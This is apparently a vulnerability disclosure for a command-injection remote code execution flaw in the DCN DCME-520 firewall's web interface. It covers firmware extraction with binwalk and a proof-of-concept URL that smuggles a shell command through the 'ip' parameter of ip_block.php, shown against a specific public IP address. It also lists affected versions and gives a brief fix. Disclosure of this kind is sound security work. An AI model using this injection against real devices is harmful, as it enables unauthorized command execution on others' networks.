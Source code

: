 #  DCME introduce

DCME-520 multi-core egress gateway adopts multi-core high-performance processor, combined with dedicated ASIC switching chip, which is a new generation of high-performance Internet egress gateway for the business needs of large-capacity users, multi-traffic flow, and multi-service types.DCME-520 has excellent performance and powerful data processing capability, and compared with traditional firewalls, broadband routers, DCME-520 has a super-high wire-speed throughput and industry-leading new connection capability. DCME-520 integrates broadband routing, firewall, switch, VPN, traffic management and monitoring, intranet security, wireless controller, etc. The redundant design of dual power supply increases the reliability of the whole machine, and it can be used with DCN Intelligent Cloud Center to realize cloud management, flexible authentication, network diagnostics, data statistics and other cloud and data applications. Cloud and data applications. Simple and easy to use configuration is especially suitable for large and medium-sized enterprises, campuses, governments, chain organizations, star-rated hotels, carriers and other complex network application environments.

# Vulnerability description

There is a security vulnerability in DCN Firewall DCME-520, which originates from a user controllable parameter in the file/var/local/ww/function/audit/newstatistics/ip-block.chp that includes remote command execution (RCE).

> DCME-520 Project address
> 
> https://www.dcnetworks.com.cn/ruanjian.html

After downloading the binary file, we use the binwalk command to separate the file and obtain the source code.

```
# binwalk -Me --run-as=root DCME-520-9.1.5.11.bin 
```

The location of the vulnerability code is in the device system at/usr/local/ww/function/audit/newstatistics/ip-block.chp

![截图](99e30c8a6bfa75df5cfdf04997e3150a.png)

# Vulnerability verification

Log in to the web management backend and access the URL where the vulnerability is located:`http://122.225.192.114:8081/function/audit/newstatistics/ip_block.php`

![截图](4bbcafde601752862bca323257312ee7.png)

Construct payload:`http://122.225.192.114:8081/function/audit/newstatistics/ip_block.php?action=save&switch=1&ip=;echo hyhy123 > 1.txt;`

Create a txt file and write its contents.

![截图](2d7e7e2888e84ba52fa35e7675524cd8.png)

Accessing the 1.txt file, it was found that the creation and writing were successful.

![截图](9f65e01b8624fa6d9afe27c332722698.png)

# The affected version

- DCME-520-9.25.5.11
- DCME-520-8.25.2.44

# Repair suggestions

Modify web backend PHP code to control or filter related parameters